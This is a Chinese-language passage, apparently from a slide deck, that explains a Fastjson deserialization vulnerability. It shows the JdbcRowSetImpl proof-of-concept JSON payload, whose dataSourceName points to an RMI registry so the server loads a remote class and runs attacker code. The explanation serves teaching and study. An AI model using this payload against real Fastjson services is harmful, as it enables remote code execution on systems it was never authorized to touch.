

反序列化0day漏洞
如果说其lookup方法的参数是我们可以控制的，可以将其参数指向我们控制的Registry，那我们可以在Registry绑定一个指向远程类的Reference对象（当对象为Reference类型的时候，应用会加载远程类并实例化），远程类的静态代码块及构造方法均可控，从而导致任意代码执行。
下面以com.sun.rowset.JdbcRowSetImpl类为例具体解释下，
基于类com.sun.rowset.JdbcRowSetImpl的POC如下：
{ "@type":"com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"rmi://localhost:1097/Object", "autoCommit":true }
Fastjson在反序列化的时候，会构造对象，然后调用对象的setter方法。在解析上述json字符串时，首先构造JdbcRowSetImpl对象，然后调用setDataSourceName方法和setAutoCommit方法为对象赋值，在调用setAutoCommit方法时，会通过connect方法调用lookup方法向Registry发出查询请求，而Registry的地址正是dataSourceName的值，这就导致了lookup方法参数可控，进而我们可以通过自定义Registry实现进一步漏洞利用。
connect方法代码：